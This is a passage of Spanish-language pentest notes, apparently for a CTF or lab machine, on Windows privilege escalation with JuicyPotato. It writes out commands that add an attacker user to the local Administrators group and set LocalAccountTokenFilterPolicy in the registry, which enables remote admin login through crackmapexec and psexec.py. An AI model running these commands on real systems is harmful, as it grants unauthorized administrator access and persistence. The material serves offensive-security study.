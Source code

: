 `-a "/c net localgroup Administrators pos3idon /add"`: En este caso, se está ejecutando el comando `net localgroup` para agregar el usuario "pos3idon" al grupo de administradores locales del sistema.


Si al verificar con crackmapexec y no te aparece un pwn3d puedes hacer lo sigiente.

Tienes que modificar un registro.

```
JP.exe -t * -p c:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1234
```

Y ya tendrias un usuario valido a nivel de sistema con privilegios de administrador con el cual ingresar a a travez de psexec.py.

## ROT3D.